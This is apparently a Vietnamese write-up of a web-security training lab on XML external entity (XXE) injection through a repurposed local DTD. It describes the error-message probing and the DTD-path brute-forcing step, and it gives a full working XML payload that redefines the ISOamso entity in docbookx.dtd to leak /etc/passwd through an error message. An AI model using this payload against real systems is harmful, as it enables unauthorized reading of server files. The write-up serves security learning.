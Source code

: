 # Lab: Exploiting XXE to retrieve data by repurposing a local DTD

This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the /etc/passwd file.

You'll need to reference an existing DTD file on the server and redefine an entity from it.

Hint
Systems using the GNOME desktop environment often have a DTD at /usr/share/yelp/dtd/docbookx.dtd containing an entity called ISOamso.

# Overview:

Ta sử dụng LocalDtd khi:

- Ta có thể xác định và tham chiếu entity, nhưng ta không thể trích xuất dữ liệu in band.

- Filter dầu ra ngăn chặn out-of-band đến server.


LoacalDtd file là 1 file đã tồn tại sẵn trên server.Ta tận dụng file Dtd này bằng cách gây ra lỗi ở exfil data.

Ta có form lab

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/f12dcc68-236b-4d8a-a5bc-2ca2bc55ee83)

# Solution

Ta check stock product

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/88735202-5612-44a8-8d01-53125e802041)

Mình thử chèn những payload trước đó đã làm hay là thêm `%`, nhưng không cho kết quả gì nhiều.Nhưng khi mà mình thức cách của bài error message bằng tạo một resources không tồn tại thì lại cho ra kết quả này

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/feecb965-ddfc-4d71-95b8-2cedc749b1bb)

Theo cái response này cho phép liệt kết các existence và non-existence file hoặc là dtd file. Vậy ta cần phải tham chiếu file dtd đã tồn tại.

https://www.gosecure.net/blog/2019/07/16/automating-local-dtd-discovery-for-xxe-exploitation/. Nguồn tham khảo này, cung cấp khá là nhiều các loại file dtd.Mình sẽ brute force, nhớ tắt payload encode.

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/b4facb94-97c9-41af-a4bc-afcbe97fe8d7)

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/b4278634-dc85-4a96-bf66-389ca77fd2f2)

Theo hint của đề bài Dtd nằm ở đó. Sau khi có ta có thể dễ dàng tấn công hơn, ta sẽ làm giống như bài error messages, và fie này, dữ liệu của nó sẽ được tìm thấy tại [apt-browser](https://www.apt-browse.org/browse/ubuntu/bionic/main/amd64/yelp/3.26.0-1ubuntu2/file/usr/share/yelp/dtd/docbookx.dtd)

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///foobar/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/53fa593b-0cfe-4984-9a5a-91a71935ec60)

Send và đã solve được lab 

![image](https://github.com/Llam-a/XML-external-entity-XXE-injection/assets/115911041/d7524146-1ca6-4c80-9507-d6c59ed26755)
